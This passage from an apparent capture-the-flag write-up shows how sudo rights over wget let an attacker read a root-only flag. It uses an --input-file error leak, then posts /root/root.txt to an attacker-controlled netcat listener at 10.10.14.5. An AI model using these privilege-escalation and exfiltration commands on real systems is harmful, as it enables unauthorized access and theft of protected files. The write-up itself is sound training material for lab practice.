 ### 6 Methods to root Using wget

There’s a ton of things we can do from here. Reading the [wget man
page](https://linux.die.net/man/1/wget) provides a wealth of ideas. I’ll show
six examples.

#### –input-file

The easiest way to just get the flag is to take advantage of the `--input-
file` or `-i` flag on wget. This flag allows you to provide a file with the
urls to visit. When it reads the hash, the string will fail to process as a
url, and will tell us so in an error message, complete with flag:

    
    
    sammy@sunday:~$ sudo wget --input-file /root/root.txt
    /root/root.txt: Invalid URL fb40fab6...: Unsupported scheme
    No URLs found in /root/root.txt.
    

#### Post Flag

A second method to exfil the flag is to have wget post the file back to us
using `--post-file`. Unfortunately, python SimpleHTTPServer doesn’t support
POST requests:

    
    
    root@kali# python3 -m http.server 443
    Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
    10.10.10.76 - - [27/Sep/2018 20:57:17] code 501, message Unsupported method ('POST')
    10.10.10.76 - - [27/Sep/2018 20:57:17] "POST / HTTP/1.0" 501 -
    

However, in this, case I only need to read the POST, not respond to it, so a
simple `nc` will work:

    
    
    sammy@sunday:~$ sudo wget --post-file /root/root.txt http://10.10.14.5:443/
    --00:52:35--  http://10.10.14.5:443/
               => `index.html'
    Connecting to 10.10.14.5:443... connected.
    HTTP request sent, awaiting response...
    
    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 49337
    POST / HTTP/1.0
    User-Agent: Wget/1.10.2
    Accept: */*
    Host: 10.10.14.5:443
    Connection: Keep-Alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    
    fb40fab6...
    